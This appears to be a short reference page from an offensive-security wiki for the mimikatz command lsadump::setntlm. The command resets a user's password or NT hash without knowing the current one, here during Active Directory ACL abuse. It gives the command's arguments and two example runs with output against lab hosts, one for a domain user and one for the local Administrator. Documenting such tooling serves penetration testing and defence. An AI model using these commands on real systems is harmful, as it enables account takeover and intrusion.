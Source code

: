 # setntlm

It can be used to perform a password reset without knowing the user's current password. It can be useful during an active directory [Access Control (ACL) abuse](https://www.thehacker.recipes/ad/movement/access-controls) scenario. It has the following command line arguments:

* `/ntlm`: The new NT hash for the target user
* `/user`: The username of the account to target
* `/password`: The new password for the target user
* `/server`: hostname of the target server

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

### Reset for a Domain User

```
mimikatz # lsadump::setntlm /user:optimus /password:VeryStrongPass1! /server:dc.hacklab.local
NTLM         : 7cb0b13a4661116dd2c306fb2f4536b2

Target server: dc.hacklab.local
Target user  : optimus
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1732

>> Informations are in the target SAM!
```

### Reset for a Local User

```
mimikatz # lsadump::setntlm /user:Administrator /password:Super_SecretPass1! /server:Win10.hacklab.local
NTLM         : b09a14d2d325026f8986d4a874fbcbc7

Target server: Win10.hacklab.local
Target user  : Administrator
Domain name  : WIN10
Domain SID   : S-1-5-21-1604892360-3618202543-1602915806
User RID     : 500

>> Informations are in the target SAM!
```
